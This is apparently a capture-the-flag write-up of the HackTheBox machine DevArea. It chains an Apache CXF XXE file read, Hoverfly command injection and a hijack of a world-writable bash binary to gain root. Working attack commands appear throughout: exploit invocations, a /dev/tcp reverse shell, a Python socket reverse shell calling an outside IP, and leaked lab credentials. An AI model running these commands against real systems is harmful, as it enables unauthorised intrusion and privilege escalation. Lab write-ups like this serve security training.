





> Cover image source: [Source](./dev.png)

**Introduction**
================

I’m **NANO**, and in this write-up, I’ll walk you through exploiting **DevArea**, a Medium Linux machine on HackTheBox. This challenge is a perfect showcase of how outdated services and small misconfigurations can lead to a full system compromise. We’ll start by exploiting an **XXE** vulnerability in an old SOAP service, move to **Remote Code Execution (RCE)** in Hoverfly, and finally seize **Root** access by abusing a world-writable bash binary
 - Full walkthrough of DevArea machine involving XXE, Hoverfly RCE, and Bash hijacking."
### **Step By Step**

**Come with me to travel**

Machine Overview

    Name: DevArea
    OS: Linux (Ubuntu 24.04)
    Difficulty: Medium


### **1\. Reconnaissance**

The first step is always reconnaissance. I started with a full Nmap scan to map out the attack surface:

``` 
nmap -nmap -sV -sC -p- --min-rate=10000 -vv 10.129.58.32 

```

**Nmap Results:**

*   **Port 21 (FTP):** Anonymous login allowed.
    
*   **Port 80 (HTTP):** Redirects to devarea.htb.
    
*   **Port 8080 (Jetty):** Running an older version (9.4.27).
    
*   **Port 8888 (Hoverfly):** Exposed dashboard.
    

### **1.1 FTP Enumeration**

Since **Anonymous login** was permitted, I immediately jumped into the FTP server to see what I could exfiltrate:

```
   ftp 10.129.58.32  # Logged in as anonymous  ftp> cd pub  ftp> get employee-service.jar

```   

### **1.2 Static Analysis (JAR Decompilation)**

To understand the backend logic, I used jadx-gui to decompile the retrieved JAR file. Inside ServerStarter.java, I identified the use of **Apache CXF JAX-WS**.


```

   import org.apache.cxf.jaxws.JaxWsServerFactoryBean;  public class ServerStarter {      public static void main(String[] args) {          JaxWsServerFactoryBean factory = new JaxWsServerFactoryBean();          factory.setServiceClass(EmployeeService.class);          factory.setServiceBean(new EmployeeServiceImpl());          factory.setAddress("");          factory.create();          System.out.println("Employee Service running at ");          System.out.println("WSDL available at ");      }  }   

```




### **2\. Vulnerability Research & Intelligence**

After identifying the tech stack through static analysis of the employee-service.jar, I shifted my focus to finding a viable entry point. Running an outdated stack like **Jetty 9.4.27** combined with **Apache CXF** is a massive red flag in any security audit.

**FindingImplicationApache CXF JAX-WS**A robust but complex SOAP framework that handles sensitive XML/SOAP data.**Jetty 9.4.27**A legacy web server (released circa 2020) known to have unpatched security gaps.**Endpoint: /employeeservice**The exposed API surface where SOAP requests are processed.**WSDL Access**Full visibility into the service structure, allowing for precise payload crafting.

### **Exploit : CVE-2022-46364**

My research led me to **CVE-2022-46364**, a high-severity vulnerability that perfectly matched the target's environment.

*   **Vulnerability Type:** XXE (XML External Entity) via XOP Include.
    
*   **Vector:** MTOM (Message Transmission Optimization Mechanism) processing.
    
*   **The Root Cause:** The vulnerable Apache CXF version fails to validate URI schemes within tags. This oversight allows an attacker to bypass standard XML restrictions and use the file:// protocol to reach the local file system.
    

To weaponize this, I utilized a specialized Python exploit script:

*   **Exploit Source:** [CVE-2022-46364-Poc by kasem545](https://github.com/kasem545/CVE-2022-46364-Poc/tree/main)
    

### **3\. Exploitation: Weaponizing the XXE**

I used the identified PoC to confirm the **XXE-to-SSRF** flaw. My primary objective was to confirm the vulnerability and map out the system users to find a path for lateral movement.

**Proof of Concept (PoC):**I targeted the /etc/passwd file to verify my ability to read arbitrary files from the server.
  ```

  # Executing the XXE exploit to leak /etc/passwd  python3 CVE-2022-46364.py -t  -s file:///etc/passwd -d devarea.htb   

  ```

### ** Output: **

```
EXFILTRATED CONTENT  ======================================================================  root:x:0:0:root:/root:/bin/bash  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  bin:x:2:2:bin:/bin:/usr/sbin/nologin  sys:x:3:3:sys:/dev:/usr/sbin/nologin  sync:x:4:65534:sync:/bin:/bin/sync  games:x:5:60:games:/usr/games:/usr/sbin/nologin  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin  _apt:x:42:65534::/nonexistent:/usr/sbin/nologin  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin  systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin  messagebus:x:101:102::/nonexistent:/usr/sbin/nologin  systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin  pollinate:x:102:1::/var/cache/pollinate:/bin/false  polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin  syslog:x:103:104::/nonexistent:/usr/sbin/nologin  uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin  tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin  tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false  landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin  fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin  usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin  sshd:x:109:65534::/run/sshd:/usr/sbin/nologin  dev_ryan:x:1001:1001::/home/dev_ryan:/bin/bash  ftp:x:110:111:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin  syswatch:x:984:984::/opt/syswatch:/usr/sbin/nologin  postfix:x:111:112::/var/spool/postfix:/usr/sbin/nologin  _laurel:x:999:987::/var/log/laurel:/bin/false  dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false  ======================================================================  [✓] EXPLOIT SUCCESSFUL  Server fetched internal resource and returned contents.  nano
``` 

### **4\. Pivoting: From XXE to Hoverfly Credentials**

With the **XXE** vulnerability confirmed, my next objective was to find administrative credentials for the **Hoverfly Dashboard** running on port **8888**. In a real-world scenario, once you have **Arbitrary File Read**, you don't just guess files—you look for **Service Configurations** to find hardcoded secrets.

### **Why Target /etc/systemd/system/hoverfly.service?**

In modern Linux environments, services are typically managed by systemd. These service files are a "gold mine" for attackers for several strategic reasons:

*   **Credential Harvesting**: Developers often commit a security "Anti-Pattern" by passing sensitive credentials, such as usernames and passwords, directly into the execution command (ExecStart).
    
*   **Infrastructure Mapping**: Since the initial Nmap scan revealed Hoverfly on port **8888**, we knew a service must be managing it on the backend.
    
*   **Privilege Discovery**: Systemd files explicitly state which **User** and **Group** the process runs under. In this case, it confirmed the service runs as dev\_ryan, meaning any RCE achieved through Hoverfly would grant a shell as that specific user.
    
*   **Operational Efficiency**: Instead of brute-forcing a dashboard, we go straight to the "Source of Truth" stored on the disk.
    

### I leveraged the **CVE-2022-46364** exploit to exfiltrate this unit file.
   ```
   python3 CVE-2022-46364.py \\    -t  \\    -s file:///etc/systemd/system/hoverfly.service \\    -d devarea.htb   
   ```

### Exfiltrated Configuration:

```
nano ~/Desktop ❯ python3 CVE-2022-46364.py \\         -t  \\    -s file:///etc/systemd/system/hoverfly.service \\    -d devarea.htb   ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██████╗      ██╗  ██╗ ██████╗ ██████╗  ██████╗ ██╗  ██╗  ██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗╚════██╗     ██║  ██║██╔════╝ ╚════██╗██╔════╝ ██║  ██║  ██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝ █████╔╝     ███████║███████╗  █████╔╝███████╗ ███████║  ██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝  ╚═══██╗     ╚════██║██╔═══██╗██╔═══╝ ██╔═══██╗╚════██║  ╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗██████╔╝          ██║╚██████╔╝███████╗╚██████╔╝     ██║   ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝╚═════╝           ╚═╝ ╚═════╝ ╚══════╝ ╚═════╝      ╚═╝  ======================================================================    CVE-2022-46364 | Apache CXF SSRF via MTOM XOP:Include    CVSS 9.8 CRITICAL | CWE-918  ======================================================================  [CONFIG]    Target:       SSRF URL: file:///etc/systemd/system/hoverfly.service    Domain:   devarea.htb    Method:   MTOM  [*] Sending exploit payload...  [+] Server responded: HTTP 200  [RAW RESPONSE SNIPPET]  Report received from W1VuaXRdCkRlc2NyaXB0aW9uPUhvdmVyRmx5IHNlcnZpY2UKQWZ0ZXI9bmV0d29yay50YXJnZXQKCltTZXJ2aWNlXQpVc2VyPWRldl9yeWFuCkdyb3VwPWRldl9yeWFuCldvcmtpbmdEaXJlY3Rvcnk9L29wdC9Ib3ZlckZseQpFeGVjU3RhcnQ9L29wdC9Ib3ZlckZseS9ob3ZlcmZseSAtYWRkIC11c2VybmFtZSBhZG1pbiAtcGFzc3dvcmQgTzdJSjI3TXl5WGlVIC1saXN0ZW4tb24taG9zdCAwLjAuMC4wCgpSZXN0YXJ0PW9uLWZhaWx1cmUK  [BASE64 EXTRACTED]  W1VuaXRdCkRlc2NyaXB0aW9uPUhvdmVyRmx5IHNlcnZpY2UKQWZ0ZXI9bmV0d29yay50YXJnZXQKCltTZXJ2aWNlXQpVc2VyPWRldl9yeWFuCkdyb3VwPWRldl9yeWFuCldvcmtpbmdEaXJlY3Rvcnk9L29wdC9Ib3ZlckZseQpFeGVjU3RhcnQ9L29wdC9Ib3ZlckZs...  [EXFILTRATED CONTENT]  ======================================================================  [Unit]  Description=HoverFly service  After=network.target  [Service]  User=dev_ryan  Group=dev_ryan  WorkingDirectory=/opt/HoverFly  ExecStart=/opt/HoverFly/hoverfly -add -username admin -password O7IJ27MyyXiU -listen-on-host 0.0.0.0  Restart=on-failure  RestartSec=5  StartLimitIntervalSec=60  StartLimitBurst=5  LimitNOFILE=65536  StandardOutput=journal  StandardError=journal  [Install]  WantedBy=multi-user.target  ======================================================================  [✓] EXPLOIT SUCCESSFUL  Server fetched internal resource and returned contents.  
```

**Credentials I get it:** admin:07IJ327MyyXiU for Hoverfly Dashboard!

*   **Username:** admin
    
*   **Password:** O7IJ27MyyXiU
    
*   **Target User:** dev\_ryan





    

### **5\. Vulnerability Research: Hoverfly RCE**

Having secured the credentials, I researched potential vulnerabilities for the Hoverfly instance. My investigation led to **CVE-2025-54123**, a critical **Command Injection** flaw.

### **Vulnerability Breakdown: CVE-2025-54123**

*   **Target Endpoint**: /api/v2/hoverfly/middleware
    
*   **Root Cause**: Insufficient input validation and sanitization in the middleware management API.
    
*   **Impact**: This flaw enables unauthenticated (or authenticated) **Remote Code Execution (RCE)** on the host system.
    
*   **Affected Versions**: Hoverfly versions **1.11.3 and prior**.
    

**The Strategy**: Use the discovered admin:O7IJ27MyyXiU credentials to authenticate and exploit the middleware API to trigger a reverse shell as the dev\_ryan user.

### **6\. Initial Access: Hoverfly RCE**

With the administrative credentials admin:O7IJ27MyyXiU in hand, I moved to exploit the **Hoverfly Middleware Command Injection** vulnerability. As identified in the research phase, this flaw allows for direct command execution through the middleware API.

### **Step 1: Verification**

I first executed a simple whoami command to verify the execution environment and ensure the credentials were valid.

```
python3 CVE-2025-54123.py \\    -u admin \\    -p O7IJ27MyyXiU \\    -c "whoami" \\    -t 
```
**Verification Output:**

  ```
   [+] Login on   [+] Token: eyJhbGciOiJIUzUxMiIs...  [+] Sending RCE: whoami  === OUTPUT ===  dev_ryan   
   ```


### **Step 2: Spawning a Reverse Shell**

After confirming command execution, I set up a Netcat listener on my local machine to catch the incoming connection:

```

nc -lvnp 4444
```

Then, I executed the exploit again, this time targeting a full reverse shell payload to stabilize my access:



```
 nano ~ ❯ python3 CVE-2025-54123.py \\    -u admin \\    -p O7IJ27MyyXiU \\    -c "sh -i >& /dev/tcp/10.10.14.215/9001 0>&1" \\    -t
 ```

**Connection Received:**

```
 connect to [10.10.15.9] from (UNKNOWN) [10.129.58.32] 54322  dev_ryan@devarea:~$   

```



SHAPOWWW

Once you catch the shell on your listener:
------------------------------------------

Now we upgrade it step by step:
```
  $>  python -c 'import pty; pty.spawn("/bin/bash")' 

```


CTRL Z
```
  stty raw -echo;fg  click enter  export TERM=xterm   
  ```

### **7\. Privilege Escalation**

After securing a foothold as **dev\_ryan**, I began my internal enumeration. Checking sudo permissions revealed an interesting entry:
```
 dev_ryan@devarea:~$ sudo -l  Matching Defaults entries for dev_ryan on devarea:      env_reset, mail_badpass,      secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin,      use_pty  User dev_ryan may run the following commands on devarea:      (root) NOPASSWD: /opt/syswatch/syswatch.sh, !/opt/syswatch/syswatch.sh          web-stop, !/opt/
 syswatch/syswatch.sh web-restart 

```
I discovered that dev\_ryan can execute /opt/syswatch/syswatch.sh as **root** without a password. Upon inspecting the environment, I found a critical misconfiguration that turned this "limited" script into a full system compromise.

### **The Critical Discovery**

Checking the permissions of the system's bash binary revealed a shocking security flaw:

```
ls -la /usr/bin/bash
```
```
Output: -rwxrwxrwx 1 root root 1396520 ... /usr/bin/bash\
```
==========================================================

The /usr/bin/bash binary was **world-writable**. This means any user on the system can modify or replace the core shell binary.

### **Step 1: Setting Up a Clean Shell**

Our current reverse shell is bash-based. If we overwrite or kill the bash process, we lose our connection. I established a secondary "clean" shell using /bin/sh to maintain persistence.

**On Kali (Second Listener):**

```
  nc -lvnp 5332   
```

**From the existing shell:**

```
   python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.15.9",5332));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'   
```

### **Step 2: Crafting the Malicious Payload**

I backed up the original bash binary and created a script that would grant me permanent root access by setting the **SUID** bit on Python 3.

```
   # Backup the real bash binary  cp /usr/bin/bash /tmp/bash.bak  # Create the payload to set SUID on Python3  echo '#!/tmp/bash.bak' > /tmp/bash_payload  echo 'chmod u+s /usr/bin/python3' >> /tmp/bash_payload  chmod +x /tmp/bash_payload   
```

I identified and killed all running bash processes to ensure /usr/bin/bash was not "busy" before overwriting it.

```
   # Verify no processes are using the binary  lsof /usr/bin/bash  # Overwrite the system bash binary with my payload  cp /tmp/bash_payload /usr/bin/bash   
```

By running the syswatch.sh script with **sudo**, the system executes our malicious /usr/bin/bash with root privileges.


```   sudo /opt/syswatch/syswatch.sh web-status   
```

The payload successfully set the SUID bit on Python 3. I could now use Python to spawn a root shell by setting the UID to 0.

```
  python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'   
```


## **OWned the machine**
=================

### **Flags**

*   **User Flag:** cat /home/dev\_ryan/user.txt
    
*   **Root Flag:** cat /root/root.txt
    

8.**Exploitation Flow Summary**
===============================

```
 [ External Recon ]                |                v        +-------------------+        |  Port 8080 (SOAP) |        +---------+---------+                  |          [ CVE-2022-46364 ] <--- Static Analysis (jadx-gui)                  |                  v        +-------------------+        |   XXE File Read   | ----> Read: /etc/systemd/system/hoverfly.service        +---------+---------+                  |          [ Creds Leaked ] <------- Found: admin:O7IJ27MyyXiU                  |                  v        +-------------------+        |  Port 8888 (API)  |        +---------+---------+                  |          [ CVE-2025-54123 ] <--- Command Injection in Middleware                  |                  v        +-------------------+        | Reverse Shell (SH)| <--- Foothold as 'dev_ryan'        +---------+---------+                  |          [ Misconfiguration ] <--- /usr/bin/bash is World-Writable!                  |                  v        +-------------------+        |   ROOT ACCESS!    | <--- SUID Python3 Hijack        +-------------------+   
 ```

*   **Reconnaissance & Entry Point Identification**: Initial scans revealed a JAX-WS SOAP service running on **Apache CXF**. Decompiling the application with **jadx-gui** confirmed an outdated stack.
    
*   **Information Leakage via XXE**: Leveraged **CVE-2022-46364** to perform an **XXE-to-SSRF** attack. By targeting the Linux service files, I exfiltrated the hoverfly.service configuration which contained hardcoded admin credentials.
    
*   **Foothold via Middleware Exploitation**: Used the leaked credentials to authenticate against the Hoverfly API. Exploited **CVE-2025-54123** (Command Injection) to drop a reverse shell as the dev\_ryan user.
    
*   **Privilege Escalation via Binary Hijacking**: Discovered that /usr/bin/bash was mistakenly set to **world-writable**. I replaced the system bash with a malicious payload that granted **SUID** permissions to Python3.
    
*   **Full System Compromise**: Executed a privileged script via sudo to trigger the payload and spawned a root shell using the modified Python binary.

## ** اللهم صل على محمد عبدك ورسولك كما صليت على إبراهيم ، وبارك على محمد وعلى آل محمد كما باركت على إبراهيم وعلى آل إبراهيم**
===============================


